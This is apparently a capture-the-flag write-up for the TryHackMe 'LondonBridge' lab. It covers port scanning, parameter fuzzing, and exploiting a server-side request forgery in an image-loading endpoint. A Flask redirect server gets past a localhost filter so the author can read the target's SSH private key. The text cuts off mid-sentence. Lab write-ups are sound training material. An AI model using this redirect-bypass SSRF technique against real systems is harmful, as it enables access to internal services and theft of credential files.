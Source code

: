 ----------------

### CTF: THM
### Lab: LondonBridge

---------------

![image](https://github.com/user-attachments/assets/9fc3a6b2-580f-4581-a574-c403b9d47b7c)

---------------

- Rustscan's output
      
      ❯ rustscan -a 10.10.227.38 -- -Pn -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      🌍HACK THE PLANET🌍
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.227.38:22
      Open 10.10.227.38:8080
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 06:23 WAT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:23
      Completed NSE at 06:23, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:23
      Completed NSE at 06:23, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:23
      Completed NSE at 06:23, 0.00s elapsed
      Initiating Parallel DNS resolution of 1 host. at 06:23
      Completed Parallel DNS resolution of 1 host. at 06:23, 0.05s elapsed
      DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 06:23
      Scanning 10.10.227.38 [2 ports]
      Discovered open port 8080/tcp on 10.10.227.38
      Discovered open port 22/tcp on 10.10.227.38
      Completed Connect Scan at 06:23, 0.19s elapsed (2 total ports)
      Initiating Service scan at 06:23
      Scanning 2 services on 10.10.227.38
      Completed Service scan at 06:25, 124.91s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.227.38.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:25
      Completed NSE at 06:25, 15.69s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:25
      Completed NSE at 06:26, 2.05s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:26
      Completed NSE at 06:26, 0.00s elapsed
      Nmap scan report for 10.10.227.38
      Host is up, received user-set (0.19s latency).
      Scanned at 2024-11-05 06:23:38 WAT for 143s
      
      PORT     STATE SERVICE    REASON  VERSION
      22/tcp   open  ssh        syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 58:c1:e4:79:ca:70:bc:3b:8d:b8:22:17:2f:62:1a:34 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDziNs6aSHIQOJFilv8PhCPd676iD1TrhMYe4p4Mj2E3yaAl4xb8DNT2dhpcv6H8EvtCJnAbXmnFTTOZy14fd7FKc2/Mr4MNLsINFpMU8hc85g6S9ZEnWKlU8dw5jUUeZnAbHSTnq6ARvEbT/Y5seiWEJ7IBiUqptlUA2eiOU7g0DFwrYH7n40aDe0m6PKPIfI9G0XO0cJHISeJ0bsSES1uun2WHLM0sRx+17hrBgM2YfD9OevcltVMlQqWasP9lqf2ooOdBvQTq4eH5UyyuEzaRtQwBYP/wWQEVFacejJE1iT2VD6ZAilhlzo9mww9vqTEwGTvatH65wiyCZHMvrSb
      |   256 2a:b4:1f:2c:72:35:7a:c3:7a:5c:7d:47:d6:d0:73:c8 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJuZrGZxDIlI4pU1KNZ8A87cWFcgHxRSt7yFgBtJoUQMhNmcw8FSVC54b7sBYXCgBsgISZfWYPjBM9kikh8Jnkw=
      |   256 1c:7e:d2:c9:dd:c2:e4:ac:11:7e:45:6a:2f:44:af:0f (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICkCeqFADY/YvhJyJabcs5DVTYbl/DEKEpBoluTuDdB1
      8080/tcp open  http-proxy syn-ack gunicorn
      | http-methods: 
      |_  Supported Methods: OPTIONS GET HEAD
      |_http-title: Explore London
      |_http-server-header: gunicorn
      | fingerprint-strings: 
      |   GetRequest: 
      |     HTTP/1.0 200 OK
      |     Server: gunicorn
      |     Date: Tue, 05 Nov 2024 10:16:11 GMT
      |     Connection: close
      |     Content-Type: text/html; charset=utf-8
      |     Content-Length: 2682
      |     <!DOCTYPE html>
      |     <html lang="en">
      |     <head>
      |     <meta charset="UTF-8">
      |     <meta name="viewport" content="width=device-width, initial-scale=1.0">
      |     <title>Explore London</title>
      |     <style>
      |     body {
      |     font-family: Arial, sans-serif;
      |     margin: 0;
      |     padding: 0;
      |     background-color: #f2f2f2;
      |     header {
      |     background-color: #333;
      |     color: #fff;
      |     padding: 10px 20px;
      |     text-align: center;
      |     background-color: #444;
      |     color: #fff;
      |     padding: 10px 20px;
      |     text-align: center;
      |     color: #fff;
      |     text-decoration: none;
      |     margin: 0 10p
      |   HTTPOptions: 
      |     HTTP/1.0 200 OK
      |     Server: gunicorn
      |     Date: Tue, 05 Nov 2024 10:16:11 GMT
      |     Connection: close
      |     Content-Type: text/html; charset=utf-8
      |     Allow: OPTIONS, GET, HEAD
      |_    Content-Length: 0
      1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
      SF-Port8080-TCP:V=7.94SVN%I=7%D=11/5%Time=6729ABE1%P=x86_64-pc-linux-gnu%r
      SF:(GetRequest,B15,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:
      SF:\x20Tue,\x2005\x20Nov\x202024\x2010:16:11\x20GMT\r\nConnection:\x20clos
      SF:e\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
      SF:02682\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n\x20\x2
      SF:0\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\x20\x20\x20<meta\x20name=\"v
      SF:iewport\"\x20content=\"width=device-width,\x20initial-scale=1\.0\">\n\x
      SF:20\x20\x20\x20<title>Explore\x20London</title>\n\x20\x20\x20\x20<style>
      SF:\n\x20\x20\x20\x20\x20\x20\x20\x20body\x20{\n\x20\x20\x20\x20\x20\x20\x
      SF:20\x20\x20\x20\x20\x20font-family:\x20Arial,\x20sans-serif;\n\x20\x20\x
      SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x
      SF:20\x20\x20\x20\x20\x20\x20\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\
      SF:x20\x20\x20\x20\x20\x20background-color:\x20#f2f2f2;\n\x20\x20\x20\x20\
      SF:x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20header\x20{\n\x20\x20
      SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20#333;\n\x2
      SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#fff;\n\x20\x20\
      SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x2010px\x2020px;\n\x20\
      SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-align:\x20center;\n\x20
      SF:\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20nav\x20{
      SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20
      SF:#444;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#fff;\
      SF:n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x2010px\x2020
      SF:px;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-align:\x20cen
      SF:ter;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x
      SF:20nav\x20a\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:
      SF:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-decorat
      SF:ion:\x20none;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\
      SF:x200\x2010p")%r(HTTPOptions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gu
      SF:nicorn\r\nDate:\x20Tue,\x2005\x20Nov\x202024\x2010:16:11\x20GMT\r\nConn
      SF:ection:\x20close\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nAll
      SF:ow:\x20OPTIONS,\x20GET,\x20HEAD\r\nContent-Length:\x200\r\n\r\n");
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's directory scan

![image](https://github.com/user-attachments/assets/0c475fb2-a5af-4129-a7c0-2453d2740f36)


- I tried the `view_image` route and got a 500 error when I tried the `GET` method.I tried the `POST` method and discovered it required the `image_url` parameter.Then,I tried to load a url to see the output but it just reflects it back.

![image](https://github.com/user-attachments/assets/22d97295-dc4e-4ffe-80ab-c1711b24da43)

- I fuzzed for more parameter with burp suite.I intercepted the curl request with burpsuite.

![image](https://github.com/user-attachments/assets/5742d7bf-fa9f-41f8-bcab-52313e411f68)

- Then,I fuzzed for params with `Burp Intruder`.I used the wordlist `common.txt` to fuzz.I got the param `www` which successfully loaded the url of the target.The endpoint is vulnerable to server side request forgery.

![image](https://github.com/user-attachments/assets/ff84ede2-75e2-4af1-b4a7-50307d8d9c03)

- I tried to load localhost and see if I can fuzz for internal ports but I got the `403` error.

![image](https://github.com/user-attachments/assets/a731fa11-a793-4eb9-8f0a-9cb9159ea031)

- I bypassed the 403 error by setting up a site which redirects to the localhost url.I exploited this by setting up a Flask server with the code below.The index page takes in 2 params which is the `port` and `file`.The port serves as the internal port we want to load,while the `file` param signifies the file that we want to read.

```python3
#! /usr/bin/env python3
from flask import Flask, redirect,request
from urllib.parse import quote
app = Flask(__name__)    

@app.route('/',methods=['GET'])    
def root():
    port = request.args.get("port")
    file = request.args.get("file")
    if file != None:
        url =  f"http://127.0.0.1:{port}/{file}"
    else:
        url = f"http://127.0.0.1:{port}/"
    return redirect(url, code=301)
    
if __name__ == "__main__":
    app.run(host="<ip>", port=8080)
```

![image](https://github.com/user-attachments/assets/957e3bf8-62bb-45be-a479-0b00a57fedaa)

- Filter bypassed

![image](https://github.com/user-attachments/assets/cd6ba7d8-392c-417d-b590-2238f648695e)

- I was able to read the ssh's id_rsa and authorized_keys files.It should be noted that `&` should be passed to the 

















